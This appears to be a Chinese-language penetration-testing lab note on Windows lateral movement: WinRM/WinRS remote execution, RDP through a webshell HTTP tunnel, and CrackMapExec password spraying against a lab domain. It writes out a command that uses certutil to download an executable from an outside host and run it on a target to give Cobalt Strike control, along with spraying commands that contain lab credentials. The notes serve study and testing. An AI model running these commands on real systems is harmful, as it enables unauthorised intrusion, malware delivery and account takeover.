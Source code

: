 
# 协议-横向
### WinRM  /  WinRS   

一种横向移动的协议

利用条件：

1、win 2012之前利用需要手动开启winRM ，在win 2012之后(包括win 2012)的版本是默认开启的， 

2、防火墙对5986、5985端口开放。

​    先扫端口是否开放   5986、5985 （这里最好还是先提到system，在扫5985端口情况）

![1733135556613](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942174.png)

小插曲：

需要先开启WinRM服务：

![1733136365631](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942175.png)

winrs执行远程命令：

![1733136408276](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942176.png)

 解决cs上执行WinRM报错（cs不支持交互式），换一种执行方式。

![1733136693156](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942177.png)

用cs自带的插件运行也报错：

![1733136825756](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942178.png)

换了一种方式执行：

![1733136917715](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942179.png)

防火墙：

![1733141575985](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942180.png)

  反向

![1733142490112](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942181.png)

35 演示反向--------web站点（web机没有开web服务）  sql机打开防火墙：（入站拦截，出站不拦截）：

转发上线-----监听----用刚才的shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http//192.168.3.31/4444.exe 4444.exe & 4444.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45       执行上线

### RDP 

远程终端连接服务

对方开启RDP服务 3389 端口          远程桌面

​            还是socks代理，设置好后可以用mstac连接

![1733145385480](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942182.png)

连  隧道（http），这里是用冰鞋上传的后门建立的http隧道，实现内网穿透，将目标的3389远程终端连接端口映射到本地，不过这里需要的流量太大，冰鞋支持不了。其他的方法：frp,nps，iox等方法都需要上传到目标机，所以还是选用http隧道。

![1733145945752](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942183.png)

正常连接时：

![1733146097700](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942184.png)

用冰鞋连接尝试http代理，看能否实现映射，端口为3389，RDP服务的：（刚才的shell.asp不支持，这里的.aspx支持）

![1733146130190](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942185.png)

这时再来连接：

就可以了，不过冰鞋的流量不支持，这流量太大了，所以不稳定

  hash连接，需要在被控机上操作，用mimikatz将hash值导入到目标机，这种方式对系统也有要求。有些鸡肋

sharpRDP:        一款工具，不用自己手动的连接远程桌面，不过不建

### CrackMapExec-密码喷射

解决了域内用户多，密码多，账户多等问题。不错的工具。

  这款工具有windows 也有 linux  ，都需要安装配置，这里选用的是kali自带的。不过前提需要先配置好代理---socks                    

kali下改socks代理的配置文件：       环境说明：kali是通信不到3网段的web和sql机的。

![1733147257820](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942186.png)

这里说明：域内用户，域内本地用户。比如:：web 机dbadmin用户就是域内用户，域内本地用户就是web 机的administrator

先拿到域内用户，然后net user /domain        ，存到1.txt中。然后抓取密码得到hash值或者明文

![1733147957938](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942187.png)

开始喷射：

![1733148177350](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942188.png)

 有＋号就是喷射成功：

![1733148493587](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942189.png)



​    

proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p 'admin!@#45'           这是登录域内adminstrator 用户域，就是DC，密码应为：Admin12345      这里就没有+号

![1733148523010](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942190.png)

proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p 'admin!@#45' --local-auth 这是登录域内本地用户的administrator  

![1733148709400](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942191.png)

![1733148697349](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942192.png)

还可以执行上线命令（全部测试的）：

![1733148884794](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942193.png)

成功的都上线了：

![1733148903706](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942194.png)

还可以创建密码字典，hash字典等操作手法很多  https://www.cnblogs.com/Yang34/p/14411497.html

## 总结：
winrm/winrs  winrm更底层点。这两个协议类似，都是可以用来rce，但是都需要账密的明文且防火墙要开启
RDP没啥说的，windows远程终端连接服务
CrackMapExec 工具，可以针对性的爆破hash，还有批量上线cs
